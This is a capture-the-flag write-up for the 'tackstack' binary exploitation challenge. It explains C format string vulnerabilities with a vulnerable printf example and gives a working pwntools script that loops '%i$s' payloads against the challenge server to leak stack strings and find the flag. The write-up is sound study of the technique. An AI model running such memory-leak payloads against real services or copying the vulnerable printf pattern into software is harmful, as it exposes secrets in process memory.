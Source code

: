 # tackstack

## TL;DR
 Exploit format string vuln, by dumping all strings from memory with the `%i$s`, for i in range(1,100).

## Description
The challenge was in the binary exploitation category, gave 100 points and had the following description:
```
Have you ever played Jenga? Tack Stack is like that game, but with tacks!

Connect with:
nc jh2i.com 50038
```

When connection to the server, there is a prompt, asking for data.
```
========================
|       TACKSTACK      |
========================


Welcome to TackStack!
How to play:
  * Stack your tacks!
Ready? Go!

Your tack:
```
When entering data, it was echoed back by the server. The first thing I checked, was if there is a format string vulnerability.

Thus I tested my hypothesis:
```
Your tack: %x%x
------------------------
|                      |
    4030bef273b780
|                      |
------------------------
```
We see that we get some values from the stack.

A format string vulnerability occurs in C, when the program prints a user-controlled buffer without the right formatting. E.g.:

```C

char str1[20];

printf("Gimme data: ");
scanf("%s", str1);

//Correct/safe way:
printf("%s\n", str1);

//False/vulnerable way:
printf(str1);

```

When there are format string parameters in the first argument of `printf` it pops arguments from the stack and displays them.


## Exploiting the Service

We can use this to dump all the strings from the program memory, starting from the stack by using the %s format string.

To print the i^th string on the stack, we can use the following format string: `%i$s`.
Now we just need to loop for n in [1..100] to and grep the flag.
Thus a little python script which does exactly this.


```python
from pwn import *

ret = ""
for i in range(1,100):
  #start remote connection
	p = remote("jh2i.com", 50038)
  #read from connection
	ret = p.recvuntil("tack: ")
  #send format string
	p.sendline("%"+str(i)+"$s")
  #check if crashed, and read the output
	try:
		ret = p.recvuntil("tack: ")
	except:
		print("crashed")
  # If we got the flag, print it and break the loop
	if("LLS{" in ret):
		print(ret)
		break
  #else close connection and restart the loop
	p.close()
```

Just wait a few iterations, and there we go, we get our flag:

```
Your tack:
------------------------
|                      |
    FLAG=LLS{tack_stack?_more_like_stack_attack}
|                      |
------------------------
```
